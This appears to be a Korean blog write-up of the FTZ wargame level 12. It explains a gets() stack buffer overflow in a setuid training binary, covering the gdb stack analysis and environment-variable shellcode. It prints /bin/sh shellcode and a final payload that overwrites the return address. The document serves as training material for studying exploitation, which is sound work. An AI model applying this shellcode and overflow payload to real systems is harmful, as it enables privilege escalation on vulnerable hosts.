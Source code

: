 ```yaml
---
title: BOF/ ftz-level12
tags: ftz
---
```


FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  
gdb - 디버깅 도구  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 12
**ID : level12**  
**PASSWD : it is like this**         

<br />
{% highlight C linenos %}  
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
gets로 문자열을 입력받아 str에 저장하고 str을 출력하는 소스.  
**gets함수는 입력받을 데이터의 크기제한이 없기 때문에 입력 데이터가 256Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
level13의 권한으로 set-uid가 설정되어 있다.  
<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level11에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level12/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 264byte의 공간을 메모리에 할당했을을 알 수 있다.  
main+49 line을 보면 str의 주소는 ebp-264이며 str(256Byte)뒤에 8Byte의 dummy값이 있음을 알 수 있다.  

메모리구조|
---|
str(256Byte)|
dummy(8Byte)|
sfp(4Byte)|
ret(4Byte)| 

<br />
![그림2](/assets/ftz/level12/2.PNG)  
쉘코드를 환경변수에 등록하고 환경변수의 주소를 ret에 덮는 방식으로 공격을 시도.  

<br />
![그림3](/assets/ftz/level12/3.PNG)  
환경변수의 주소를 얻기 위해 getenv명령을 통해 환경변수의 주소를 출력하는 소스를 작성한다.  

<br />
![그림4](/assets/ftz/level12/4.PNG)  
소스파일을 컴파일하고 실행하여 환경변수의 주소를 얻는다.  

<br />
![그림5](/assets/ftz/level12/5.PNG)  
ret에 접근하기 위해 ret전까지는 아무 값이나 채우고 ret에 환경변수의 주소를 little-endian방식으로 넣는다.  
level11과는 달리 인자 형태가 아닌 gets로 프로그램 실행중에 입력을 받기 때문에 페이로드를 다른 방식으로 작성한다.  
|(PIPE)를 이용하여 python으로 출력하는 페이로드를 attackme에 전달한다.

<br />

#### 페이로드
(python -c "print 'a'*268 + '\x2a\xfc\xff\xbf'" ;cat) | ./attackme 
